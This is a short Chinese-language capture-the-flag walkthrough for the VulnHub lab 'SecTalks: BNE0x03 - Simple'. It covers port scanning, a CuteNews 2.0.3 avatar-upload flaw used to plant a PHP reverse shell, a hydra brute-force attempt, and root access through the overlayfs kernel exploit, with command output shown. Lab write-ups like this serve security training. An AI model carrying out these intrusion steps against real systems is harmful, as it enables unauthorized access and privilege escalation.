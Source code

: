 # SecTalks: BNE0x03 - Simple

2024-6-9 https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141/

difficulty: easy

## IP

192.168.5.31

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

访问 80 web 首页，http://192.168.5.31/ 显示的 CMS 是 CuteNews v.2.0.3 经过 searchsploit 发现对应这个版本有文件上传漏洞 CuteNews 2.0.3 - Arbitrary File Upload | php/webapps/37474.txt ，但是需要用户登陆凭据。

使用 gobuster 进行扫描吧，看看能不能找到用户凭据的线索。

发现了一个链接 http://192.168.5.31/cdata/users.txt 显示 nug1x7:1 使用登陆提示密码错误，nug1x7 用户名应该是正确的，使用 hydra+rockyou 进行爆破，没找到密码。

看到主页上有注册的功能，可以先注册个用户，这时就有了用户凭据，就可以使用上面的文件上传漏洞上传 web shell 了。

按照 37474.txt 中的步骤进行操作，上传 Avatar ，使用 bp 进行拦截改包，kali 上监听 8888，curl 访问 http://192.168.5.31/uploads/avatar_test_8888.php，这时得到了反弹的 web shell，先升级下 tty。

发现 /home 目录中有 bull，但是该文件夹中没有提示信息。

linpeas 也没发现有用信息，尝试内核提权吧：

```
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation       | linux/local/37292.c
```

在目标机器上编译 37292.c 并执行，得到了 root 权限：

```
www-data@simple:/tmp$ gcc 37292.ofs.c -o ofs
www-data@simple:/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/flag.txt
U wyn teh Interwebs!!1eleven11!!1!
Hack the planet!
```
